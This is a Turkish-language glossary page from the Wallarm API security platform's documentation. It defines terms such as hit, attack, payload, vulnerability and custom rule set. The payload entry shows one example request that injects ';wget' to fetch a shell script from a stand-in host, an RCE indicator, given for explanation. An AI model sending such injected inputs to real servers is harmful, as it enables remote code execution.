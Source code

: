 # Sözlük

Sözlük, platformu daha iyi anlamanıza yardımcı olmak için temel Wallarm varlıklarını kapsar.

## Hit

Hit, seri hale getirilmiş kötü amaçlı bir istektir (orijinal kötü amaçlı istek ve filtreleme düğümü tarafından eklenen meta veriler), örneğin:

![Hit örneği](images/user-guides/events/analyze-attack-raw.png)

[Hit parametrelerinin ayrıntıları](user-guides/events/check-attack.md#attack-analysis_1)

## Saldırı {#attack}

Bir saldırı, [gruplandırılmış](user-guides/events/grouping-sampling.md#grouping-of-hits) tek bir hit veya birden fazla hit'tir.

Tek bir hit içeren bir saldırı örneği:

![Tek hit içeren saldırı](images/glossary/attack-with-one-hit-example.png)

Birden çok hit içeren bir saldırı örneği:

![Birkaç hit içeren saldırı](images/glossary/attack-with-several-hits-example.png)

Saldırıların nasıl anlaşılacağı ve analiz edileceğine dair [ayrıntılara bakın](user-guides/events/check-attack.md).

## Kötü Amaçlı Yük (Payload)

Orijinal isteğin aşağıdaki unsurları içeren bir bölümüdür:

* Bir istekte tespit edilen saldırı göstergeleri. Aynı saldırı türünü karakterize eden birden fazla saldırı göstergesi bir istekte tespit edilirse, yüke yalnızca ilk gösterge kaydedilir.
* Saldırı göstergesinin bağlamı. Bağlam, tespit edilen saldırı göstergelerinin öncesinde ve sonrasında yer alan semboller kümesidir. Yük uzunluğu sınırlı olduğundan, saldırı göstergesi tam yük uzunluğundaysa bağlam atlanabilir.

Örneğin:

* İstek:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* Kötü amaçlı yük:

    ```bash
    ;wget+http://s
    ```

    Bu yükte, `;wget+` bir [RCE](attacks-vulns-list.md#remote-code-execution-rce) saldırı göstergesidir ve yükün diğer kısmı saldırı göstergesinin bağlamıdır.

Saldırı göstergeleri [davranışsal saldırıları](attacks-vulns-list.md#attack-types) tespit etmek için kullanılmadığından, davranışsal saldırıların bir parçası olarak gönderilen isteklerin yükleri boştur.

## Zafiyet

Bir API oluşturulurken veya uygulanırken ihmal ya da yetersiz bilgi nedeniyle yapılan ve bilgi güvenliği riski doğurabilen bir hatadır.

Bilgi güvenliği riskleri şunlardır:

* Yetkisiz veri erişimi; örneğin, kullanıcı verilerini okuma ve değiştirme erişimi.
* Hizmet reddi.
* Veri bozulması ve diğerleri.

Zafiyetleri tespit etmek için İnternet trafiği kullanılabilir; Wallarm diğer işlevlerinin yanı sıra bunu yapar.

## Güvenlik Olayı

Güvenlik olayı, bir zafiyetin istismar edilmesinin gerçekleşmesidir. Bir olay, doğrulanmış bir zafiyeti hedef alan bir [saldırı](#attack)dır.

Bir olay, tıpkı bir saldırı gibi, sisteminizin dışındaki bir varlıktır ve sistemin değil, dış İnternet'in bir özelliğidir. Mevcut zafiyetleri hedefleyen saldırılar azınlıkta olsa da, bilgi güvenliği açısından son derece önemlidir. Wallarm, mevcut zafiyetleri hedefleyen saldırıları otomatik olarak tespit eder ve bunları ayrı bir nesne – güvenlik olayı – olarak gösterir.

Ayrıca bkz.: [Olay Analizi](user-guides/events/check-incident.md)

## Dairesel Arabellek
Dairesel arabellek, tek bir, sabit boyutlu arabelleği sanki uç uca bağlanmış gibi kullanan bir veri yapısıdır.
[Bkz. Vikipedi](https://en.wikipedia.org/wiki/Circular_buffer).

## Özel kural seti (önceki terim LOM)

Özel kural seti, Wallarm düğümleri tarafından Wallarm Cloud'dan indirilen derlenmiş güvenlik kuralları kümesidir.

Özel kurallar, trafik işleme için bireysel kurallar ayarlamanızı sağlar, örneğin:

* Wallarm Cloud'a yüklemeden önce hassas verileri maskele
* regexp tabanlı saldırı göstergeleri oluştur
* Etkin bir zafiyeti istismar eden istekleri engelleyen sanal yamayı uygula
* Belirli isteklerde saldırı tespitini devre dışı bırak, vb.

Özel kural seti varsayılan olarak boş değildir; örneğin [**Settings → General** tab] içindeki değerle filtreleme modu kuralı gibi, Bulutta kayıtlı tüm müşteriler için oluşturulan kuralları içerir (admin-en/configure-wallarm-mode.md#general-filtration-mode).

[Özel kural setleri hakkında daha fazla bilgi](user-guides/rules/rules.md)

## Geçersiz İstek
Filtre düğümü tarafından kontrol edilmiş ve LOM kurallarıyla eşleşmeyen bir istek.

## Ters Proxy
Ters proxy, bir istemci adına bir sunucudan kaynakları alan ve bu kaynakları sanki Web sunucusunun kendisinden geliyormuş gibi istemciye iade eden bir proxy sunucu türüdür.
[Bkz. Vikipedi](https://en.wikipedia.org/wiki/Reverse_proxy).

## Sertifika Otoritesi
Sertifika otoritesi, dijital sertifikalar veren bir kuruluştur.
[Bkz. Vikipedi](https://en.wikipedia.org/wiki/Certificate_authority).